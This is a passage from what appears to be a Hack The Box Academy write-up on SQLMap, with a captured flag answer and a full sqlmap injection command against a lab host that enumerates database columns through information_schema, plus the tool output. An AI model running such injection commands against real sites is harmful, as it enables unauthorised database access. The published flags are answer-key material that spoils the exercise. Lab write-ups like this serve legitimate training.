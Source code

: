 ```
+----+-----------------------------------------------------+

[SNIP]
```

**Answer**

```
HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}
```

---

## Exercise - Advanced Database Enumeration

### Questions

#### Question #08

**Question**

What's the name of the column containing "style" in it's name? (Case #1)

```javascript
--batch --search -C style
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --search -C style

[SNIP]

[06:22:52] [INFO] searching columns LIKE 'style' across all databases
[06:22:52] [WARNING] potential permission problems detected ('command denied')
[06:22:52] [INFO] fetching columns LIKE 'style' for table 'ROUTINES' in database 'information_schema'
columns LIKE 'style' were found in the following databases:
Database: information_schema
Table: ROUTINES
[1 column]
+-----------------+------------+
| Column          | Type       |
+-----------------+------------+
| PARAMETER_STYLE | varchar(8) |
+-----------------+------------+

[SNIP]
```
